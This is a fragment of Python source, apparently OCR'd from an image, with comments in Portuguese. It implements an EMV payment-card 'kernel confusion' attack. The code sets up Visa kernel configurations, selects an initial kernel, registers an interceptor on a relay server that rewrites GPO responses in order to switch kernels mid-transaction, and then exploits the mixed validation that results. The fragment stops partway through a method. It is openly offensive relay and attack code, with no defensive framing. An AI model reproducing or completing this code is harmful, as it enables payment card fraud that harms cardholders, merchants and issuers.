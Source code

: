 ```python
                    'gpo_response_format': 'AIP_AFL_TRACK2_IAD_AC_CID_ATC_CTQ',
                    'auth_methods': ['EMV', 'DDA'],  # Different from MC
                    'cvm_methods': ['NoPIN', 'OnlinePIN']
                },
                'data_elements': {
                    '9F02': 'Amount',
                    '9F1A': 'Terminal Country Code',
                    '9F33': 'Terminal Capabilities',  # Visa-specific
                    '9F40': 'Additional Terminal Capabilities',  # Visa-specific
                    '9F37': 'Unpredictable Number'
                }
            }
        }
    
    def initiate_kernel_confusion(self, initial_kernel, target_kernel):
        """
        Inicia ataque de confusão entre kernels
        """
        self.current_kernel = initial_kernel
        self.target_kernel = target_kernel
        
        # Phase 1: Establish initial kernel
        self.establish_initial_kernel()
        
        # Phase 2: Switch kernel mid-transaction
        self.execute_kernel_switch()
        
        # Phase 3: Exploit mixed processing
        self.exploit_mixed_validation()
    
    def establish_initial_kernel(self):
        """
        Estabelece kernel inicial através de SELECT
        """
        initial_config = self.kernel_configs[self.current_kernel]
        
        # Send SELECT with initial AID
        select_response = {
            'aid': initial_config['aid'],
            'fci': self.build_fci_template(initial_config),
            'status': '9000'
        }
        
        return self.send_apdu_response(select_response)
    
    def execute_kernel_switch(self):
        """
        Executa mudança de kernel durante GPO
        """
        target_config = self.kernel_configs[self.target_kernel]
        
        # Intercept GPO request
        def gpo_interceptor(gpo_request):
            # Respond with target kernel format
            return self.build_gpo_response_for_kernel(self.target_kernel, gpo_request)
        
        self.relay_server.register_interceptor('GPO', gpo_interceptor)
    
    def build_gpo_response_for_kernel(self, kernel, gpo_request):
        """
        Constrói resposta GPO para kernel específico
        """
        config = self.kernel_configs[kernel]
```